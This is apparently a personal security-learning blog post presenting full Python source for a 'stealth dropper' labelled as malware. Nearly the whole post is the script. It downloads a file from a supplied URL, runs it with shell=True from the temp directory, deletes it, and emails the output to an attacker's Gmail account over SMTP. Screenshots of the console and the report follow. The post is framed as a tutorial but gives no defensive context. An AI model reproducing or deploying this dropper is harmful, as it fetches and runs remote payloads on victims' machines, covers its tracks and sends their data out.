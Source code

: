 ```yaml
---
title: Malware - Stealth Dropper
date: 2021-08-19 10:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Downloads, executes, reports and cleans up after.
---
```


<p align="left">
 <img src="https://i.imgflip.com/4/3pt59r.jpg">
</p>

## A Cross Platform python script that downloads, executes, reports and cleans up after.


- We implement:

  > the tempfile module - to find the temp dir.

  > the os module - to use platform independent functions like chdir to change to the temp dir.

  > the subprocess module - to execute and remove the created file.

  > the smtplib module - to create an SMTP instance to send our reports back to our proviced mail address.




### Code:

```python
#!/usr/bin/env python

import requests, subprocess, smtplib, os, tempfile, argparse

# Cross-Platform
# Works by default with google's SMTP


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-d", "--download-file", dest="download", help="File to Download")
    parser.add_argument("-a", "--args", dest="args", help="args if provided by Download file")
    parser.add_argument("-e", "--email", dest="email", help="Email-ID to recieve report")
    parser.add_argument("-p", "--password", dest="password", help="Password for provided Email-ID")
    options = parser.parse_args()
    if not options.download:
        # code to handle error
        parser.error("\n[-] Please specify a valid download url,  use --help for info.")
    if not options.email:
        # code to handle error
        parser.error("\n[-] Please specify a valid Email-ID,  use --help for info.")
    return options


def download(url):
    get_response = requests.get(url)
    file_name = url.split("/")[-1]
    # Open File with write and binary mode
    with open(file_name, "wb") as out_file:
        out_file.write(get_response.content)
    return file_name

def send_mail(email, password, message):
    # Google's SMTP definition
    server = smtplib.SMTP("smtp.gmail.com", 587)
    server.starttls()
    server.login(email, password)
    server.sendmail(email, email, message)
    server.quit()


print("""\n\n\n
                                                        𝕾𝖙𝖊𝖆𝖑𝖙𝖍-𝕯𝖗𝖔𝖕𝖕𝖊𝖗
    """)


print("\n{-} Finding /tmp dir.")
options = get_arguments()


# Find /tmp dir on OS
temp_directory = tempfile.gettempdir()
os.chdir(temp_directory)
print("{+} /tmp dir found!")

# Download
file_name = download(options.download)
print("\n{+} File " + file_name + " has been succesfully dropped!")
# Execute
result = subprocess.check_output(file_name + " " +  options.args, shell=True)
print("{+} File " + file_name + " has been succesfully Executed!")
# Remove
os.remove(file_name)
print("{+} File " + file_name + " has been succesfully Removed!")
# Report
send_mail(options.email, options.password, result)
print("\n\n{!} Report sent to: " + options.email)
```

### Output:

_Console:_

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/Malware-Stealth_Dropper/dropper.png)

_Report:_

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/Malware-Stealth_Dropper/dropper2.png)




